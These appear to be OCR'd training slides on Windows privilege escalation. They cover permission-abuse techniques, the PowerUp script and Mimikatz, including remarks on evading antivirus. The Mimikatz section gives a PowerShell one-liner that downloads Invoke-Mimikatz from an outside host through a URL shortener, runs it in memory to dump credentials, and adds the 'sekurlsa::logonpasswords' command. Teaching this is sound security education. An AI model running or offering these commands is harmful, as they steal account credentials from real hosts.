 ### Privilege Escalation 

• Once exploit lands, attacker gains a foothold
• Initial step often has no access, must escalate
• Start somewhere on these stairs
	- ..hopefully as low as possible
	- Attempt to escalate
• Defenses slow progression
• Privileges and permissions determine success

User <> Local Admin <> Multiple Host Admin <> Domain Admin

#### How does priv esc work

Hosts are designed to not allow this, so how is it possible?
By getting something with privilege to do a task for you
- Administrative users
- Services and other programs running as admin/root
- Operating system features and privileges
- Exploitation of software/kernel
Root of the problem is often
- File permissions
- Operating system privileges

#### Abusing Operating Systemn Priv

Many privilege escalation techniques rely on poor permissions:
• Hijacking admin startup items
• Modifying service executables
• Unquoted paths
• DLL search order hijacking
• Modifiable scheduled tasks
Automated with PowerUp privilege escalation script in
PowerSploit framework
• 100% PowerShell in-memory code, harder to detect!

https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc

### Mimikatz

Sometimes its compiled from Source which is enough to throw off some AV suites; can also be custom compiled, plus it has been converted to different languages where compilation is not necessary, code runs entirely from memory. ASLR doesn't stop this. 

```powershell
powershell "IEX (New—Object Net.WebClient).DownloadString('http://is.gd/oeoFuI); Invoke-Mimikatz -DumpCreds"
```

http://is.gd/oeoFuI = -     
    https://raw.github.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1

```
sekurlsa::logonpasswords
```
